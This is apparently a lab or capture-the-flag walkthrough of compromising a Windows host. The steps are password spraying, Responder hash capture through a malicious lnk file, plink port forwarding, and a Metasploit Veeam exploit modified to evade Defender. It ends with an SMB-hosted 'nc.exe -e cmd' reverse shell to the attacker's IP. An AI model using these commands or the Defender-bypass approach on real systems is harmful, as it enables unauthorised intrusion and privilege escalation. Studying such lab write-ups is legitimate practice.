 samba and responder
open ports are 135(msrpc), 443(web https),445(samba) and 5986(wsman,winrm), 49666

samba has no public shares, web on "set", appnotes.txt mentions weak password for user
possible users:
"Max Douglas","Marjorie Adams","Nathaniel Martin","Roberta Phillips",
/assets/data/users.xml, has usernames

using '/usr/share/seclists/Passwords/Common-Credentials/top-20-common-SSH-passwords.txt'(stupid,really?) with usernames
we get a password hit for a user,
`myrtleowe:Passw@rd`
using the lnk zip method with mslink and setting up responder, we get a hash for a user(didn't work for me, copied hash/password :/)
`MichelleWat:!!!MICKEYmouse`
after "whoami /priv" and checking local dirs, we check running processes with `get-process` and see "veeam agent" running.
checking version with (get-item Veeam.One.Agent.Service.exe).versioninfo.fileversion,but the port is only locally accessible,
so we upload "plink.exe" which uses ssh to forward ports,
`echo y|&./plink.exe -ssh -l username -pw password 2805:127.0.0.1:2805 10.17.17.11`

it has a public exploit and msf module but
defender is running and it blocks the default payloads in msf, we modify it to a custom one using x64/exec and adding a cmd option
(modified file is saved as veeam_*custom.rb)
we setup a smb server with nc.exe in dir, and set SRVHOST to tun0, RHOSTS 127.0.0.1 and the cmd(now this took a looooong time) payload to:

`net use c: \\10.17.17.11\share /user:me me&c:\nc.exe 10.17.17.11 4444 -e cmd` and this step took a lot of debugging but worked in the end,
giving us a system32 shell :)
